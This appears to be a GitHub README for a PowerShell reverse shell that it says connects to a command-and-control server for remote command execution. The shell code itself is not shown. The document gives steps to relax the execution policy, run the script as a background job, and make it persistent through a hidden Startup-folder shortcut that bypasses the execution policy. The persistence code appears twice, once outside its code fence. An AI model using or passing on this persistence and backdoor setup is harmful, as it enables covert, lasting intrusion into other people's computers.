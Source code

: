# Reverse PowerShell Script

This PowerShell script establishes a reverse TCP connection to a command-and-control (C2) server and allows for remote command execution via a secure shell.

## Prerequisites

Before running the script, ensure you have the following:

- **PowerShell**: The script is written for PowerShell and should be executed in a Windows environment.
- **Execution Policy**: The script may require an execution policy that allows scripts to run.

## Step-by-Step Instructions

### 1. Set the PowerShell Execution Policy

To allow the script to run, you may need to set the execution policy to `RemoteSigned` for the current user.

1. Open a PowerShell window **as Administrator**.
2. Run the following command to set the execution policy:

   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
   ```

# ReversePowerShell

#### Run in the background

```powershell
   Start-Job -ScriptBlock { C:\Users\adm\Downloads\reverse-powershell.ps1 }
```



$startupFolder = [System.Environment]::GetFolderPath('Startup')
$scriptPath = "C:\Users\adm\Desktop\Reverse-Powershell\reverse-powershell.ps1"
$shortcutPath = "$startupFolder\reverse-powershell.lnk"


$wshShell = New-Object -ComObject WScript.Shell
$shortcut = $wshShell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -File $scriptPath"
$shortcut.Save()

```
# Create a shortcut to the reverse shell script in the Startup folder
$startupFolder = [System.Environment]::GetFolderPath('Startup')
$scriptPath = "C:\path\to\reverse-powershell.ps1"
$shortcutPath = "$startupFolder\reverse-powershell.lnk"

# Create a WScript Shell object to create the shortcut
$wshShell = New-Object -ComObject WScript.Shell
$shortcut = $wshShell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -File $scriptPath"
$shortcut.Save()

```
